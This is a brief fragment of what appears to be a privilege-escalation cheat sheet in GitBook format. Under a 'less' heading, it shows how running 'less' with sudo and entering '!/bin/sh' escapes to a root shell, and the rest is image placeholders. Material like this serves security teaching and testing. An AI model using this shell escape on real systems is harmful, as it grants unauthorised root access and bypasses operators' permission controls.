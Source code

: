 <figure><img src="../../.gitbook/assets/image (2) (1) (3) (3).png" alt=""><figcaption></figcaption></figure>

### **less**

#### **Option 1**

**Victim**

```
sudo less /etc/profile
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (5) (1) (2).png" alt=""><figcaption></figcaption></figure>
